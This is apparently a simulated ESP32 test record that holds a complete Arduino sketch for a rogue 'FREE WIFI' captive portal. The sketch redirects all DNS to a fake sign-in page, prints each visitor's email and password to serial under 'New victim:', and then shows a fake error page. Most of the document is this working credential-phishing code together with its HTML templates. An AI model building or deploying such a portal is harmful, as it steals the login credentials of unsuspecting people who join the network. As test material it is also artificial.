
This sketch was run on a simulated ESP32. On the bench: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band).

Above: at 1.2 s.
1.3 s: HTTP request GET /getlog received
At 4.2 s:

4.3 s: HTTP request GET /getlog?email=1 received
At 6.6 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line after 1.5 s (image 1)
- after the input at 4.3 s, the serial monitor: prints a new line after 1.5 s (image 2)

The sketch:

ESP32.ino
```cpp
#include <WiFi.h>
#include <WiFiClient.h>
#include <WiFiAP.h>
#include <WebServer.h>
#include <DNSServer.h>
#include "template.h"
#include "error.h"

IPAddress apIP(192,168,4,1);
DNSServer dnsServer;
WebServer server(80);
const byte DNS_PORT = 53;
String Log="";

void setup() {
  Serial.begin(38400);
  WiFi.mode(WIFI_AP);
  WiFi.softAP("FREE WIFI");
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));

  dnsServer.start(DNS_PORT, "*", apIP);

  server.on("/",[]() {
    server.send(200, "text/html", TEMPLATE);
  });

  server.on("/getlog", []() {
    String email = server.arg("email");
    String password = server.arg("password");
    delay(1500);
    Serial.println("-------------------------------------------");
    Serial.println("New victim:");
    Serial.println("-------------------------------------------");
    Serial.print("Email: ");
    Serial.println(email);
    delay(1000);
    Serial.print("Password: ");
    Serial.println(password);
    Serial.println("-------------------------------------------");
    Serial.println("");
    Serial.println("");

    server.send(500, "text/html", ERROR);
    Log="";
  });

  server.begin();
}

void loop() {
  server.handleClient();
  dnsServer.processNextRequest();
}
```

error.h
```cpp
const char ERROR[] = R"=====(
<html>
<head>
<title>Free WiFi</title>
<style>

.login-page {
  width: 600px;
  padding: center;
  margin: auto;

}

.form input {
  font-family: "Roboto", sans-serif;
  outline: 0;
  background: #f2f2f2;
  width: 100%;
  border: 0;
  margin: 0 0 15px;
  padding: 15px;
  box-sizing: border-box;
  font-size: 14px;
}
input[type=submit] {
background:#216778; font-weight: bold; color: #f2f2f2; }
}
.form .message {
  margin: 15px 0 0;
  color: #ffffff;
  font-size: 17px;

}
.form .message a {
  color: #ffffff;
  text-decoration: none;
}
p{

  text-align: center;
  font-size: 20px;
  color: #ffffff;
}

body {
  background: #8aaab2;
  background: -webkit-linear-gradient(right, #8aaab2, #8aaab2);
  background: -moz-linear-gradient(right, #8aaab2, #8aaab2);
  background: -o-linear-gradient(right, #8aaab2, #8aaab2);
  background: linear-gradient(to left, #8aaab2, #8aaab2);
  font-family: "Roboto", sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
}
img {
    display: block;
    margin: center;

  padding-top: 2.5cm;
  }

::-webkit-input-placeholder {
    color: #8aaab2;
  font-weight: bold;
}
    font-weight: bold;

</style>
</head>
<body>
<br><br><br><br>
<p align="center" ><font color="#FF2a2b" size="20px"><b>FREE</b></font> <font color="#216778" size="20px"><b>WIFI</b></font><br><font color="black" size="4px">EVIL CROW KEYLOGGER</font></p>
<p><b>Error: Contact the administrator.</b></p>
</body>
</html>
)=====";
```

template.h
```cpp
const char TEMPLATE[] = R"=====(
<html>
<head>
<title>Free WiFi</title>
<style>

.login-page {
  width: 600px;
  padding: center;
  margin: auto;

}

.form input {
  font-family: "Roboto", sans-serif;
  outline: 0;
  background: #f2f2f2;
  width: 100%;
  border: 0;
  margin: 0 0 15px;
  padding: 15px;
  box-sizing: border-box;
  font-size: 14px;
}
input[type=submit] {
background:#216778; font-weight: bold; color: #f2f2f2; }
}
.form .message {
  margin: 15px 0 0;
  color: #ffffff;
  font-size: 17px;

}
.form .message a {
  color: #ffffff;
  text-decoration: none;
}
p{

  text-align: center;
  font-size: 20px;
  color: #ffffff;
}

body {
  background: #8aaab2;
  background: -webkit-linear-gradient(right, #8aaab2, #8aaab2);
  background: -moz-linear-gradient(right, #8aaab2, #8aaab2);
  background: -o-linear-gradient(right, #8aaab2, #8aaab2);
  background: linear-gradient(to left, #8aaab2, #8aaab2);
  font-family: "Roboto", sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
}
img {
    display: block;
    margin: center;

  padding-top: 2.5cm;
  }

::-webkit-input-placeholder {
    color: #8aaab2;
  font-weight: bold;
}
    font-weight: bold;

</style>
</head>
<body>
<br><br><br><br>
<p align="center" ><font color="#FF2a2b" size="20px"><b>FREE</b></font> <font color="#216778" size="20px"><b>WIFI</b></font><br><font color="black" size="4px">EVIL CROW KEYLOGGER</font></p>
<p><b>Sign in up for Free internet access.</b></p>
<div class="login-page" >
    <div class="form" action="/">
    <form class='login-form' action='/getlog' method='GET'>
      <input type="email" placeholder="Email" name="email"/>
      <input type="password" placeholder="Password" name="password"/>
    <input type="submit" value="Sign in">
    </form>
    </div>
</div>
</body>
</html>
)=====";
```
